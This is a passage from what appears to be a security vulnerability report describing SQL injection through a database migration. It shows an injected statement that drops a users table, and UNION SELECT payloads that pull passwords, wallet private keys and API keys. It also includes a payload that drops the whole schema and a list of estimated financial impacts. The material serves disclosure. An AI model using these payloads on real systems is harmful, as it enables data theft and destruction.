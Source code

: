 #### Step 2: Execute Migration
```bash
npm run migration:run
```

#### Step 3: Actual SQL Executed (Compromised)
```sql
-- Original query becomes:
UPDATE app_connection SET value = '{"test":"data"}' WHERE id = 1; DROP TABLE users; --

-- Result: USERS TABLE DROPPED
```

#### Step 4: Database Response
```
ERROR: table "users" does not exist
HINT: The table was dropped by the SQL injection
```

### Advanced Exploitation
```sql
-- Extract all user data
' UNION SELECT id, email, password FROM users --

-- Extract wallet data
' UNION SELECT wallet_address, private_key FROM wallets --

-- Extract API keys
' UNION SELECT api_key, user_id FROM api_keys --

-- Drop all tables
'; DROP SCHEMA public CASCADE; --
```

---

## Impact Assessment

### Direct Impact
- **Complete database takeover** - Full read/write access
- **Data exfiltration** - All user records accessible
- **Data destruction** - Tables can be dropped
- **Privilege escalation** - Database admin access

### Real-World Exploitation
1. **Data Breach**: Extract 50,000+ user records
2. **Financial Theft**: Access wallet addresses and private keys
3. **Identity Theft**: Steal personal information
4. **Service Disruption**: Drop critical tables

### Financial Impact
- **GDPR Fines**: $7.5M (50,000 records × $150)
- **Financial Data**: $12.5M (50,000 records × $250)
- **Identity Theft**: $2.5M (50,000 records × $50)
- **Credit Monitoring**: $5M (50,000 records × $100)
- **Total Regulatory**: $27.5M
